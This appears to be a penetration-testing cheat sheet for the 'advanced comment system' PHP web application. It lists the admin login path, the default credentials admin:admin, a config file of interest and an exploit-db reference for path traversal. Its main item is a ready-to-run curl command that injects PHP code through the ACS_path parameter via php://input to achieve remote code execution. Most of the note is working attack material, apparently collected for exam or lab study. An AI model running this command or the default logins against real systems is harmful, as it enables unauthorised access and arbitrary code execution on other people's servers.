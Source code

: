 # advanced comment system

## Admin Path

```bash
/advanced_comment_system/admin.php
```

## Default Credentials

```bash
admin:admin
```

## Interesting Paths

```bash
config.php
```

## Path Traversal v1.0

```bash
https://www.exploit-db.com/exploits/49343
```

## RCE

v1.0

```bash
# https://pentest.tonyng.net/timo-sablowskis-oscp-note/
curl "IP/advanced_comment_system/admin.php?ACS_path=php://input%00" -s --data "<?system('ls -la');?>"
```
